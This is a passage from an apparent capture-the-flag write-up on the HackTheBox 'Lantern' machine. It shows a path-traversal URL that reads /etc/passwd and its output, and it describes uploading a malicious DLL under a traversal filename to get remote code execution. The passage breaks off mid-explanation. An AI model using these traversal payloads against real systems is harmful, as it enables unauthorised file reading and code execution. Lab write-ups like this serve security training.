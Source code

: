 ```
#
# Third party programs should typically not access this file directly, but only
# through the symlink at /etc/resolv.conf. To manage man:resolv.conf(5) in a
# different way, replace this symlink by a static file or a different symlink.
#
# See man:systemd-resolved.service(8) for details about the supported modes of
# operation for /etc/resolv.conf.

nameserver 127.0.0.53
options edns0 trust-ad
search .

/etc/passwd
http://lantern.htb/PrivacyAndPolicy?lang=../../../../&ext=./etc/passwd

tomas:x:1000:1000:tomas:/home/tomas:/bin/bash
```

Besides these, we can also find another command injection in the choose modulus
![](images/Pasted%20image%2020240829102853.png)

The error seems telling us this endpoint is able to load/execute a DLL assembly under the path /opt/component.thecybersecguru.dll—when we provide the filename as thecybersecguru.

Therefore, if we can upload a malicious DLL to /opt/components/thecybersecguru.dll, we can have an RCE attack.

3,RCE | Traversing Blazor 

The “Upload content” option in http://lantern.htb:3000 admin dashboard also suffers from path traversing. We can verify that by uploading an empty DLL file to our target path /opt/components.

It means we can try to modify the file name to ../../../../opt/components/thecybersecguru.dll, using tools like BurpSuite intercepting the upload requests. But we are having an unusual situation for the Blazor Assembly application, which we hard to read the request body consisting of binaries: